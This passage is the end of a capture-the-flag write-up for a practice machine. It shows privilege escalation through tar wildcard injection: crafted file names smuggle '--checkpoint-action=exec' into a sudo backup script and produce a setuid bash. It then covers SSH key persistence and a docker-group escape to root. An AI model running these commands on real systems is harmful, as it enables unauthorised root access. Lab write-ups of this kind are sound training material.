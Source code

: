 ```bash
jake@the-marketplace:/tmp$ echo 'cp /bin/bash /tmp/michael && chmod +s /tmp/michael' > shell.sh
jake@the-marketplace:/tmp$ chmod +x shell.sh
jake@the-marketplace:/tmp$ echo "" > "--checkpoint-action=exec=sh shell.sh"
jake@the-marketplace:/tmp$ echo "" > --checkpoint=1
jake@the-marketplace:/tmp$ mv /opt/backups/backup.tar backup.tar.bak
jake@the-marketplace:/tmp$ sudo -u michael /opt/backups/backup.sh
```

![](23.png)

By running '/tmp/michael -p', we get michael's shell.

After that i uploaded my ssh public key to michael's ssh directory and put it in authorized keys.

![](24.png)

Now i can ssh to the machine as michael without a password.

![](25.png)

By running the command `id`, we see that michael is part of docker group. Let's check [GTFOBins](https://gtfobins.github.io/gtfobins/docker/#shell).

![](26.png)

We can run the following command to get root shell.

```bash
docker run -v /:/mnt --rm -it alpine chroot /mnt sh
```

![](27.png)

---

Thank you for taking the time to read my write-up, I hope you have learned something from this. If you have any questions or comments, please feel free to reach out to me. See you in the next hack :).
